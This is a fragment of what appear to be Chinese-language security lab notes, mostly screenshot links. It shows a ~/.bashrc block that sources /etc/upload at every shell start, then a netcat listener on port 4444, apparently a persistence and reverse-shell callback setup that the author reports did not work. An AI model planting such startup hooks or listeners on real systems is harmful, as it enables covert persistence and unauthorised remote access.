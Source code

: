![image-20230823141528863](assets/image-20230823141528863.png)

```
vim ~/.bashrc
#在最后面写入
if [ -f /etc/upload ]; then
	. /etc/upload
fi
```

![image-20230823141607324](assets/image-20230823141607324.png)

### 5.4.2. 查看效果

没成功。

```
nc -lvvp 4444
```

![image-20230823142128362](assets/image-20230823142128362.png)
